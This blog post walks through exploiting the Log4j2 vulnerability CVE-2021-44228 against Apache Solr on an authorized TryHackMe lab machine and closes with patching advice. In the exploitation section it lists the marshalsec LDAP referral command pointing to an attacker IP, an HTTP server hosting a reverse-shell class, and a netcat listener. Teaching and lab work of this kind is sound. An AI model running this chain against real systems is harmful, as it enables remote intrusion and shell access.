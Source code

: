 ```yaml
---
layout: post
author: Istvan Kis
title: Log4j2 RCE and exploitation example (CVE-2021-44228)
image: log4j-1.jpg
keywords: log4j vulnerability, log4j exploit, CVE-2021-44228, hacker, reverse shell, remote code exection, tryhackme
---
```

{% include image.html src="/images/log4j-1.jpg" alt="Fox is looking really smart with glasses" %}

## What is CVE-2021-44228?

In the first half of December, 2021, ransomware attackers received the perfect Santa gift: an easily exploitable Log4j2 vulnerability. Log4j is a widely used, Java-based logging utility published by Apache initially in 2001. Since then it received many updates, and a major release to version 2. As of today, the latest patched version is 2.16.0 (December 13).

Today we use this flaw and open shell to our target machine.

<!--more-->

## About the vulnerability

However you may think that a logging tool only processes standard text files with proper input sanitising, well, not every time. Log4j allows us to do some extra [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) there, using templates. An example from Log4j website:

{% include image.html src="/images/log4j-2.png" alt="Log4j lookup example" %}

The vulnerability is based on the allowance of reaching JNDI (it is a directory service via a Java API, more info [here](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) API through the mentioned lookup mechanism, and there is no restriction for using completely custom prefix in this parameter string. It means that if we use a `jndi:ldap://` with an attacker host's prepared LDAP server, dirty stuff can come (**remote code execution**). For the record we need to mention, that DNS or RMI protocols can work as well.

{% include image.html src="/images/log4j-3.jpg" alt="Log4j attacking architecture" %}

(Credit for the detailed explanation picture above: [Fastly](https://www.fastly.com).)

## Why is it so dangerous?

For multiple reasons: for first, it is very easily exploitable, any script kiddie can take advantage of that. Secondly, there are many affected services because of transitive dependencies. Tons of enterprise softwares use this logging mechanism as external lib. Third part is related to the second one, patching Log4j itself is not enough, you need to check and understand if your enterprise, “black-box” software components use this library or not, and if so, plan and carry out proper the risk mitigation.

## Exploitation example

We used [Tryhackme](https://tryhackme.com) box to test the exploits. These guys are committed to teach the people of the internet about awareness, security, penetration testing and many more, therefore I can frankly recommend you to give them a try.

### Starting situation

So we have a vulnerable computer, which we are **allowed** to hack. There is a limited VPN between this computer (10.10.17.246) and our own attacker machine (10.9.125.225) with Kali linux ran in Virtualbox.

### Recon & discovery

Let’s check if there are any services available with port scanning. Used an aggressive scanning (**-A**) because of the playing machine (no reason to be silent), and dedicated port range for seeing only the relevant port for us. (You should check all ports usually with flag **-p-**).

{% include image.html src="/images/log4j-4.png" alt="Port scanning on target host" %}

We see that Apache Solr is running on port 8983, let’s see it in the browser.

{% include image.html src="/images/log4j-5.png" alt="Solr web interface" %}

We see Log4j2 logging scheme, and it’s [vulnerable](https://solr.apache.org/security.html), as it turns out after a short google-fu. The box itself cheats a bit here, because we can see logs from this host, which would be not available in a real situation. (In those circumstances, instead of watching the logs, we could use directory busting or other attack vectors for finding a vulnerable endpoint.)

{% include image.html src="/images/log4j-6.png" alt="Log analysis of Solr" %}

We think that the template is parameterizable (`params={}`), and also see the `/admin/cores` endpoint. Here we are.

{% include image.html src="/images/log4j-7.png" alt="Solr vulnerable endpoint" %}

We learned from the vulnerability description that through lookups we can reach external ldap or dns servers. It is over TCP, let’s check what happens if we try to catch that connection with *netcat*.

{% include image.html src="/images/log4j-8.png" alt="LDAP request catch with netcat" %}

Connection is established, but because of LDAP request structure, the output is not readable by humans. However this is a good sign.

### Exploitation

PoC was successful, now we need a process with a toolset, which can handle LDAP requests, and push an exploit to our Java-based application in an “understandable” format. Obviously it means some kind of Java class(es) / POJO.

The plan is to have an **LDAP relay** or referral server, have a simple **http server**, which can accept this connection and serve the **Java class**, which will open a **reverse shell** to our attacker computer.

For LDAP relay we use [Marshalsec](https://github.com/mbechler/marshalsec) with Maven. I won't go in details about the installation, it's pretty straightforward and well-documented in Github. 

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.125.225:8000/#Revshell”`

As a http server you can use anything handy, we prefer python3 http.server. 

`python3 -m http.server`

So LDAP will use Revshell.class on python webserver, but there is nothing yet. That is the last preparation step.

{% include image.html src="/images/log4j-9.png" alt="Reverse shell in Java - source" %}

Let’s compile it with `javac Revshell.java` and put the class into the python webserver directory. Do not forget, that the vulnerability has Java related requirements (pref. Java 7-8 for the build). We used OpenJDK 1.8.0_181.

As last step, run the listener, which will accept the reverse connection. 

`nc -nltvp 1234`

Here is our setup as a whole:

{% include image.html src="/images/log4j-10.png" alt="Schematic draw of the attack" %}

A short video about getting everything ready.

<iframe width="700" height="394" src="https://www.youtube.com/embed/xfLU5gJP0c8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This easy it is to break into systems and receive remote shell via the new Log4j2 vulnerability. It is not a coincidence, that the CVE score of it is 9.7 out of 10, while the CVSS score is 10 out of 10. Absolutely critical.

## What can we do to save our infrastructure?

Patch, patch, patch. Log4j has released fix for the base components, but as we earlier mentioned, we need to cover custom softwares and transitive dependencies as well. Watch the list of vulnerable softwares, contact your vendors, use [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) with proper string filtering, analyse activities, log files and traces. There are a couple online services (e.g. [Trendmicro](https://log4j-tester.trendmicro.com)), which provide remote checks of these threats. We do not recommend these, only if you can truly trust in them.
